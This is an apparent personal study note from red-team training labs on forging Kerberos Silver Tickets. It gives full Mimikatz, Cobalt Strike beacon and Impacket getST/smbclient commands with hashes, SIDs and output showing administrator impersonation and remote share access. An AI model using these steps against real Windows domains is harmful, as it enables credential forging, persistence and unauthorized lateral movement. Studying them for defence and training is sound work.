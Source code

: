 ```yaml
---
creation date: September 26th 2022
last modified date: September 26th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Silver Ticket]]  
___

## Description:  
A Silver Ticket is a forged TGS, signed using the secret material (RC4/AES keys) of a machine account. You may forge a TGS for any user to any service on that machine, which is useful for short/medium-term persistence (until the computer account password changes, which is every 30 days by default).

Silver and Golden (below) tickets can be generated "offline" and imported into your session. This saves executing Mimikatz on the target unnecessarily which is better OPSEC. Generating both silver and golden tickets can be done with the Mimikatz `kerberos::golden` module.

On your attacking machine:
```
mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /target:srv-2 /service:cifs /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /ticket:srv2-cifs.kirbi
User      : Administrator
Domain    : dev.cyberbotic.io (DEV)
SID       : S-1-5-21-3263068140-2042698922-2891547269
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 - aes256_hmac
Service   : cifs
Target    : srv-2
Lifetime  : 25/05/2021 10:30:08 ; 23/05/2031 10:30:08 ; 23/05/2031 10:30:08
-> Ticket : srv2-cifs.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

Where:

-   `/user` is the username to impersonate.
-   `/domain` is the current domain name.
-   `/sid` is the current domain SID.
-   `/target` is the target machine.
-   `/aes256` is the AES256 key for the target machine.
-   `/ticket` is the filename to save the ticket as.

```
beacon> make_token DEV\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\srv2-cifs.kirbi
beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 09:49:35   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/16/2021 13:00:02   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/29/2021 12:15:45   System Volume Information
          dir     02/17/2021 18:32:08   Users
          dir     05/15/2021 14:58:02   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     05/25/2021 08:39:40   pagefile.sys

beacon> rev2self
```

```
beacon> run klist

Current LogonId is 0:0x2d3d7

Cached Tickets: (2)

#0>    Client: Administrator @ dev.cyberbotic.io
    Server: host/srv-2 @ dev.cyberbotic.io
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
    Start Time: 5/26/2021 17:04:19 (local)
    End Time:   5/24/2031 17:04:19 (local)
    Renew Time: 5/24/2031 17:04:19 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0
    Kdc Called:

#1>    Client: Administrator @ dev.cyberbotic.io
    Server: http/srv-2 @ dev.cyberbotic.io
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
    Start Time: 5/26/2021 17:06:34 (local)
    End Time:   5/24/2031 17:06:34 (local)
    Renew Time: 5/24/2031 17:06:34 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0
    Kdc Called:

beacon> jump winrm64 srv-2 smb
[+] established link to child beacon: 10.10.17.68
```


### Without CS

^4540be

Example hash: `svc_int$:::d64b83fe606e6d3005e20ce0ee932fe2`

```
python3 /usr/share/doc/python3-impacket/examples/getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :c699eaac79b69357d9dabee3379547e6 -impersonate Administrator
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
 
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache

```

save the ticket as an environment variable:
`export KRB5CCNAME=/home/kolby/Desktop/working/krbrelayx/Administrator.ccache`

Log in with impacket:
`impacket-smbclient -k intelligence.htb/Administrator@dc.intelligence.htb -no-pass`
___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 26th 2022 (12:32 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
